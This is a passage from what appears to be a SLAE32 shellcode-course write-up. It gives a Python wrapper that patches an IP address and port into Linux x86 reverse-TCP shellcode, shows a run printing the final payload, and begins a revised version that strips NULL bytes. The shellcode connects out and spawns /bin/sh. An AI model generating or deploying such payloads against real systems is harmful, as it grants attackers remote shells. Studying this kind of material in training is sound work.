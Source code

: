 ```
shellcode = shellcode.replace("[p2]", second_port_val)
shellcode = shellcode.replace("[p1]", first_port_val)

print "Final Shellcode:"
print shellcode
```

Using our wrapper:

```
root@kali:~/Documents/slae32/exercise_2# python wrapper.py 127.0.0.1 9005
Chosen ip: 127.0.0.1
Chosen port: 9005
\xc6\x44\x24\x03\x7f
\xc6\x44\x24\x02\x0
\xc6\x44\x24\x01\x0
\xc6\x04\x24\x1
1st port: \x2d
2nd port: \x23

Ammending shellcode...
Final Shellcode:
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x89\xfb\x31\xc9\x51\xc6\x04\x24\x1\xc6\x44\x24\x01\x0\xc6\x44\x24\x02\x0\xc6\x44\x24\x03\x7f\x51\x66\x68\x23\x2d\x66\x6a\x02\x89\xe1\x31\xd2\xb2\x10\xcd\x80\x31\xc0\xb0\x3f\x89\xfb\x31\xc9\xcd\x80\x31\xc0\xb0\x3f\x89\xfb\xb1\x01\xcd\x80\x31\xc0\xb0\x3f\x89\xfb\xb1\x02\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\x31\xc0\xb0\x0b\xcd\x80
```

Slightly hinted at before, we can see the above out has two instances of NULL bytes due to the address containing two zeros (127.0.0.1). Due to the IP being split up into 4 chunks and then pushed onto the stack separately, these 0 values still exist. A check can be performed in the python to ignore these two instructions if the value required is a 0. They can safely be ignored as the target address is XOR’d before hand - giving us the 0 value within the target byte already. The following is the python wrapper after being adapted to handle any lone zero’s in the specified IP address:

The second draft of our Python wrapper can be seen below, preventing NULL bytes from being used in our target IP address, the main change is the four 'if statements’ that check the hex value of the IP chunk is not equal to “0”, if it is, the chunk of instructions is cleared.

```
import sys
import socket

shellcode = (
    "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3"
    "\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x6a\\x01"
    "\\x89\\xfb\\x31\\xc9\\x51[i4][i3][i2][i1]\\x51\\x66\\x68[p2][p1]"
    "\\x66\\x6a\\x02\\x89\\xe1\\x31\\xd2\\xb2\\x10\\xcd\\x80\\x31\\xc0"
    "\\xb0\\x3f\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89"
    "\\xfb\\xb1\\x01\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xb1\\x02"
    "\\xcd\\x80\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f"
    "\\x62\\x69\\x89\\xe3\\x50\\x89\\xe1\\x50\\x89\\xe2\\x31\\xc0\\xb0"
    "\\x0b\\xcd\\x80"
)

fourth_ip_asm = "\\xc6\\x04\\x24\\x[4]"          # movb   $0x7f,(%esp)   (127)
third_ip_asm = "\\xc6\\x44\\x24\\x01\\x[3]"      # movb   $0x1,0x1(%esp) (1)
second_ip_asm = "\\xc6\\x44\\x24\\x02\\x[2]"     # movb   $0x1,0x2(%esp) (1)
first_ip_asm = "\\xc6\\x44\\x24\\x03\\x[1]"      # movb   $0x1,0x3(%esp) (1)

if len(sys.argv) != 3:
    print 'Usage: ' + sys.argv[0] + ' <ip> <port>'
    sys.exit()

ip = sys.argv[1]
```